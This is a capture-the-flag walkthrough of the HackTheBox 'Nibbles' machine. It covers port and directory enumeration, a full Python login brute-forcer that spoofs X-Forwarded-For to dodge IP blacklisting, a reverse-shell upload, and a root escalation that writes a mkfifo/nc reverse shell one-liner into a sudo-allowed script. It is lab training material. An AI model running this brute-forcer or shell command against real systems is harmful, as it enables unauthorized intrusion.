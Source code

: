 # NIBBLES

## Enumeration

Doing the nmap scan we get 2 open ports

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nmap 10.10.10.75
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 05:23 EDT
Nmap scan report for 10.10.10.75
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 28.18 seconds
                                                                                 
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nmap 10.10.10.75 -p 22,80 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 05:24 EDT
Nmap scan report for 10.10.10.75
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I also did the gobuster scan but counldn't find anything of interest

Taking a look at the source code of the http page we find a very interesting line 
```
< /nibbleblog/ directory. Nothing interesting here! -->
```
So we know that there is a nibbleblog directory which we can explore

Running gobuster on the ```/nibbleblog/``` directory 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.75/nibbleblog/ -q
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 306]
/admin.php            (Status: 200) [Size: 1401]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]                                            
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]  
/README               (Status: 200) [Size: 4628]                                              
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]  
```

Opening the ```/admin.php``` we find a login page 
While taking a look at the other directories and files I found that the username is ```admin``` and also that the maximum number of tries that can be done before our ip gets blacklisted is 5 
So that means we cannot bruteforce the password with burpsuit or hydra 

## LOGIN

Now we can write a script to generate random ip's

```python
#!/usr/bin/env python3

from random import randint

import requests

# Brute force information
PASSWORD_LIST = '/usr/share/wordlists/rockyou.txt'
RATE_LIMIT = 5
RATE_LIMIT_ERROR = 'Blacklist protection'
LOGIN_FAILED_ERROR = 'Incorrect username or password.'

# Target information
RHOST = '10.10.10.75'
LOGIN_PAGE = '/nibbleblog/admin.php'
TARGET_URL = f'http://{RHOST}{LOGIN_PAGE}'
USERNAME = 'admin'


def attempt_login(password: str, ip: str) -> bool:
    """Performs a login using a given password.

    :param password: The password to try.
    :param ip: Spoof the attacker's IP address with this one.
    :return: True for a successful login, otherwise False.
    """
    headers = {'X-Forwarded-For': ip}
    payload = {'username': USERNAME, 'password': password}
    r = requests.post(
        TARGET_URL, headers=headers, data=payload
    )

    if r.status_code == 500:
        print("Internal server error, aborting!")
        exit(1)

    if RATE_LIMIT_ERROR in r.text:
        print("Rate limit hit, aborting!")
        exit(1)

    return LOGIN_FAILED_ERROR not in r.text


def random_ip() -> str:
    """Generate a random IP address.

    :return: A random IP address.
    """
    return ".".join(str(randint(0, 255)) for _ in range(4))


def run(start_at: int = 1):
    """Start the brute force process.

    :param start_at: Start brute forcing at the password with
     this 1-based index. The number represents the line in
     the password file.
    """
    ip: str = random_ip()
    num_attempts: int = 1

    for password in open(PASSWORD_LIST):
        if num_attempts < start_at:
            num_attempts += 1
            continue

        if num_attempts % (RATE_LIMIT - 1) == 0:
            ip = random_ip()

        password = password.strip()
        print(f"Attempt {num_attempts}: {ip}\t\t{password}")

        if attempt_login(password, ip):
            print(f"Password for {USERNAME} is {password}")
            break

        num_attempts += 1


if __name__ == '__main__':
    run()    
```
Alternatively we can also try some very common passwords 

The password we find is ```nibbles```

## SHELL

Now we need to upload a reverse shell for I found this article which tells exactly how to upload a reverse shell in nibbleblog https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

Following this article I get a reverse shell on my machine

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nc -lvnp 53               
listening on [any] 53 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.75] 40040
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:50:58 up  1:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ python -c 'import pty; pty.spawn("/bin/bash")'
/bin/sh: 2: python: not found
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/$ whoami
whoami
nibbler
```

## USER --> ROOT

Using the command ```sudo -l ``` to check what sudo permissions our user have
```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh    
```
This means our user can run monitor.sh file as root without password

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
ls
personal  personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls
ls
stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
ls
monitor.sh
```

Now we can edit the file to produce a root shell for us

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' > monitor.sh
echo '#!/bin/bash' > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 4444 > /tmp/f' >> monitor.sh
< /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 4444 > /tmp/f' >> monitor.sh         
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```

And we have a root shell on our machine

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/nibbles]
└─$ nc -lvnp 4444                                             1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.75] 45874
# whoami
root
# cd /root       
# ls
root.txt
```
